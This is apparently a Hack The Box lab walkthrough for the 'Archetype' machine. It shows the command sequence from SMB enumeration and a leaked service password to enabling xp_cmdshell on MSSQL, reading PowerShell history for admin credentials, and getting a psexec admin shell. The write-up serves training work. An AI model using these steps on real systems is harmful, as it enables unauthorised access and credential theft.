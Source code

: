 # HTB — Archetype: Hacking Without Reverse Shell

# Enumeration

It all starts with gathering information about the target. We used a tool called **nmap** to scan the target’s IP address like this:

```
nmap {target IP} -Pn -sV
```

![](https://miro.medium.com/v2/resize:fit:875/1*9v4DM-bhzkemNxZ4JStEPQ.png)

Our scan showed that a few doors were open on the target — RPC, SMB, and MSSQL. We decided to focus on the SMB door first and used **smbclient** to explore it:

```
smbclient -L {target IP}
```

![](https://miro.medium.com/v2/resize:fit:875/1*8eI93EPMrCbOO2_7VSV5LQ.png)

We tried to access the ADMIN$ and C$ shares, but we were denied access. Fortunately, we found an accessible share called “backups,” and we started our exploration from there:

```
smbclient \\\\10.129.20.146\\backups - no-pass
```

![](https://miro.medium.com/v2/resize:fit:875/1*eIWhjCt4q-3yKi7G1ADBxw.png)

In this share, we stumbled upon a file named ‘prod.dtsConfig.’ It seemed like a valuable configuration file, so we downloaded it to our local machine using the ‘get’ command.

![](https://miro.medium.com/v2/resize:fit:875/1*S2hPP2nEYn_gtVBy9BH5ag.png)

Upon examining the configuration file, we discovered the login credentials for a user named ‘sql_svc.’ These credentials included the username ‘sql_svc,’ the hostname ‘Archetype,’ and the password ‘M3g4c0rp123.’ We planned to make use of these credentials by using a Python script called ‘mssqlclient’ from the Impacket toolkit:

```
./mssqlclient.py -windows-auth ARCHETYPE/sql_svc@10.129.20.146
```

![](https://miro.medium.com/v2/resize:fit:875/1*BWbz5Jl-1leXMdcxxD5YWQ.png)

We successfully logged into the Microsoft SQL Server and started exploring its features by using the ‘help’ command. Our main goal was to execute commands from within the MSSQL server, so we enabled the ‘xp_cmdshell’ feature:

![](https://miro.medium.com/v2/resize:fit:875/1*21n86H5oq77JO7Bp2PuzMw.png)

```
xp_cmdshell  
exec sp_configure 'show advanced option'  
exec sp_configure 'show advanced option',1  
reconfigure  
exec sp_configure 'xp_cmdshell',1  
reconfigure
```

![](https://miro.medium.com/v2/resize:fit:875/1*Aj-TxQl5SDbtwepgyg1Vbw.png)

Enabling ‘xp_cmdshell’ in the SQL Server gave us access to this handy feature. With it enabled, we looked around the file directory and found the user flag:
```
xp_cmdshell (powershell -c type C:/Users/sql_svc/Desktop/user.txt)
```

![](https://miro.medium.com/v2/resize:fit:875/1*O7gWibMtlP1dsE0BhNq-lQ.png)

> Here’s the interesting part — we managed to get the admin’s credentials without using a reverse shell by running this command:

```
xp_cmdshell "powershell -c cat (Get-PSReadlineOption).HistorySavePath"
```

![](https://miro.medium.com/v2/resize:fit:875/1*acgBznbyDIVbqz6c1b60vQ.png)

Now that we had the admin’s credentials, we used a tool called ‘psexec.py’ from the Impacket toolkit to gain access to the admin’s shell and got the root flag :)

```
./psexec.py administrator@10.129.20.146
```

![](https://miro.medium.com/v2/resize:fit:875/1*74Vh6BReOzAcc_kuSdkbVw.png)

**Summary**

In this lab, I successfully utilized a shortcut method that didn’t require the use of a reverse shell. 🚀 This approach allowed for efficient and effective execution of tasks, and I hope that my contribution benefits the community in some way. 🙌
